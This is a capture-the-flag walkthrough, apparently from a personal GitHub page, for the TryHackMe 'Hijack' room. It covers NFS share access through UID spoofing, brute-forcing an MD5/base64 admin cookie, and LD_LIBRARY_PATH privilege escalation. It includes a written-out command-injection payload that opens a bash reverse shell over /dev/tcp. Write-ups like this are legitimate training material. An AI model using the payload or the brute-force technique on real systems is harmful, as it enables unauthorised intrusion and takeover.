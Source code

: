 # HIJACK 
![hij](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/15bc4df0-d4e6-471a-ac09-a0538e5d9787)

Link: [Hijack](https://tryhackme.com/r/room/hijack)

## Enumeration
- An NMAP scan reveals that a number of services are running on the open ports of the system.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/390f58ff-5d36-478d-afe1-eed8c69a6960)
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/1f0abcb4-5a76-4662-b4df-9cc4e5a8d1df)

- The services of interest are FTP on port 21, ssh on port 22, http on port 80 and nfs on port 2049. From the NMAP results, FTP does not allow anonymous login. Let's take a look at the website on port 80.
 
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/9e2413bf-1f35-47ff-965e-602ad9aea043)
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/d9514ecd-4def-4110-888a-81f34574b6d4)

- The website has an admin panel that cannot be accessed because you do not have the rights to do so. You can run a gobuster scan to find if there are hidden directories in the website. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/73f91c4a-5fdf-49f5-a615-240ed8ffc525)

- The results of the gobuster scan shows that there are no hidden directories of interest. One of the services running on the target machine is NFS. You can list the shares on the target using the command;

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/8d14f2f9-37a8-4b30-bf4a-bf879c1ce525)

- There is only one share on the system which you can mount to your machine and try to find any helpful information that can allow you to access the machine.
 
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/63027d01-158e-45ac-9e6f-301948d5e4c6)

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/52d95a9e-0bfb-4787-9b3c-a5d98b9aed91)

- You cannpt access the mounted share since you are not the owner. You can see that the share is owned by the user (hj_1003). This means that you will have to create the user hj_1003 on your system and switch to that user so that you can access the share. You can do so using the command;

  `sudo adduser hj_1003` 

  and then set the password using the command;

  `passwd hj_1003`

- Now switch to this user and view the contents of the share. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/90676514-2832-4664-ac78-e29900d684db)

- You get FTP credentials which you can now use to log into FTP. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/ea576b65-4064-4343-98a9-d2b1372220ca)

- There are two files of interest here: `.passwords_list.txt` and `from_admin.txt`

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/be6169a8-b083-4ecb-8583-16110bad5091)

- The contents of the latter file reveals that the admin is using one of the passwords from the list. It also reveals that there is another user known as `rick`. With this information, it's time to pay another visit to the website and play around with it.


## Initial Foothold
-Trying to log into the website using the username `admin` and the password `admin` reveals that a user with this name exists but the password is incorrect. Trying this multiple times using default passwords reveals that you only have 5 tries before the system locks you out for 300 seconds.
-You can now try and create a user account to see if there are any parameters, such as cookies, that are present for a user.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/14d4b92e-6253-480b-8875-90ec8c02f3c2)

- You find that there is indeed a cookie for the user that is logged in. Examining this cookies reveals that it is encoded in base64. By decoding it, it can be seen that the cookie is in the format `user:password` where the password is hashed in MD5. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/6bb348c5-b3f3-4438-9b9e-041e48e54738)

- With the password wordlist obtained from ftp, you can now bruteforce into the system using Intruder on Burpsuite. You can reload the logged in page of the user you created, capture this on Proxy, send it to Intruder and add the wordlist as well as rules for processing. For the cookie to be created, the password is hashed in MD5, the username is appended to this and then the result is encoded in base64. The rules should reflect this in this exact order.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/79990717-2399-4429-af8b-b7132cfb5d27)

- Click on the result that has a different time length than the rest. This is the cookie for the admin panel.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/329f149d-ead7-4907-985d-9382596a6a5c)

- Now you can log into the account you created and change the cookie to this value. You now have access to the admin panel where you can check the status of a service. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/cf01b1d8-4ae7-459c-9b96-5aba8be52d5e)

- While here, you can try to inject a command that gives you a reverse shell. I tried using a semi-colon after inputting ftp but the system detected this as a command injection. The other option is to use `&&` where the second commnad is executed only after the first is completed. With this, you can perform command injection as such to get a reverse shell;

`ftp && bash -c "bash -i >& /dev/tcp/ip/port 0>&1"` where ip is your listening IP and port is your netcat listening port and executing this gives you a shell

- Viewing the contents of `config.php` reveals credentials for the user rick which you can ssh into.
- Now, you can get your first flag.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/485fe627-1853-4637-a633-22b2a2c39a63)


## Privilege Escalation
- Now, let's try to gain a root shell. The first vector I usually try is `sudo -l`. Luckily, that gets us a relevant vector for privesc in this case.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/52762bb7-c521-4165-bf12-28337186ea82)

- You can leverage the LD_LIBRARY_PATH environment variable to gain a root shell. This is outlined well [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation?source=post_page-----65e9d2b1a717--------------------------------#ld_preload-and-ld_library_path).
- The steps are as shown below. Copy the code provided into a c file (shell.c). Compile the code as is shown and then run the code and append the sudo command that `rick` is allowed to run on the system.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/6339dbab-0d14-4ea1-a9bf-2231e7866d0d)

- This gives you a root shell through which you can get the second flag.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/6cd0b7a6-d6e4-43ee-b5c5-8b8d28513e54)

